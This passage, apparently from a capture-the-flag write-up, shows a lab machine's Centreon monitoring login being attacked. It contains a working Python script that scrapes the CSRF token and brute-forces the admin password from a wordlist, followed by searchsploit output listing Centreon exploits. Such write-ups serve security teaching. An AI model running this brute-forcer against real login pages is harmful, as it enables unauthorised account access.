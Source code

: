     :::Python
    import requests
    from bs4 import BeautifulSoup

    url = "http://10.10.10.157/centreon/index.php"

    def testPassword(password):
        s = requests.Session()
        r = s.get(url)

        soup = BeautifulSoup(r.text, 'html.parser')
        token = soup.find_all('input')[3].get('value')

        r = s.post(url, data = {'useralias':'admin', 'password': password, 'submitLogin':'Connect', 'centreon_token':token})
        if ('Your credentials are incorrect.' not in r.text):
            print(password)

    file = open("rockyou_50.txt")
    for password in file:
        testPassword(password.strip())

We launch the script and get the password: `password1`.  We can then login in
the centron interface.

![Centreon interface](/media/2019.12/wall_3.png)

We search for the available exploits on this solution. Most of the know exploits
are old but the one concerning Centreon 19.04.

    :::text
    # searchsploit centreon
    --------------------------------------- ----------------------------------------
     Exploit Title                         |  Path
                                           | (/usr/share/exploitdb/)
    --------------------------------------- ----------------------------------------
    Centreon - SQL Injection / Command Inj | exploits/unix/remote/35078.rb
    Centreon 1.4.2.3 - 'get_image.php' Rem | exploits/php/webapps/5204.py
    Centreon 1.4.2.3 - 'index.php' Local F | exploits/php/webapps/31318.txt
    Centreon 19.04  - Remote Code Executio | exploits/php/webapps/47069.py
    Centreon 2.3.1 - 'command_name' Remote | exploits/php/webapps/36293.txt
    Centreon 2.5.3 - Remote Command Execut | exploits/php/webapps/39501.txt
    Centreon 2.5.3 - Web Useralias Command | exploits/python/remote/40170.rb
    Centreon 2.5.4 - Multiple Vulnerabilit | exploits/php/webapps/37528.txt
    Centreon 2.6.1 - Multiple Vulnerabilit | exploits/php/webapps/38339.txt
    Centreon < 2.5.1 / Centreon Enterprise | exploits/linux/webapps/41676.rb
    Centreon Enterprise Server 2.3.3 < 2.3 | exploits/php/webapps/23362.py
    Centreon IT & Network Monitoring 2.1.5 | exploits/php/webapps/11979.pl
    Oreon 1.4 / Centreon 1.4.1 - Multiple  | exploits/php/webapps/4735.txt
    --------------------------------------- ----------------------------------------
    Shellcodes: No Result
    Papers: No Result
